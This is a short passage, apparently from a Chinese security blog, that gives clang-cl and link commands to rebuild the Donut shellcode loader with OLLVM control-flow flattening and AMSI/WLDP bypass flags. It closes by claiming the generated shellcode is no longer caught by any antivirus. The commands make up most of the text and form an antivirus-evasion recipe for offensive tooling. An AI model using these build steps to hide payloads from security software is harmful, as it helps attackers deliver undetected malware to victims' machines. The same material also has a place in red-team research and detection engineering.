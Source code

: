 此时用 IDA 打开 loader.exe，可以看到如下图所示的流程图。

[![](assets/1709261886-0c3e13856cc32e34e2b45c53a9a093cf.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240228155233-550eb63e-d60e-1.png)

生成`loader_exe_x64.h`

注意需要从 VS 目录复制 chkstk.obj 到 Donut 源码目录

```plain
.\clang-cl.exe --target=x86_64-w64-windows-msvc -mllvm -fla -mllvm -split -DBYPASS_AMSI_A -DBYPASS_WLDP_A -Zp8 -c -nologo -Gy -Os -O1 -Ob1 -GR- -EHa -Oi -GS- -Gs2147483647 -I include loader\loader.c hash.c encrypt.c loader\depack.c
link -nologo -order:@loader\order.txt -entry:DonutLoader -fixed -subsystem:console -nodefaultlib loader.obj hash.obj encrypt.obj depack.obj chkstk.obj
.\exe2h.exe .\loader.exe
```

生成包含 OLLVM 版 LOADER 的`donut.exe`

```plain
rc include/donut.rc
.\clang-cl.exe --target=i686-w64-windows-msvc -Zp8 -nologo -DDONUT_EXE -I include donut.c hash.c encrypt.c format.c loader\clib.c lib\aplib32.lib include/donut.res
```

再次使用`donut.exe`生成 shellcode，已经没有任何杀软查杀了
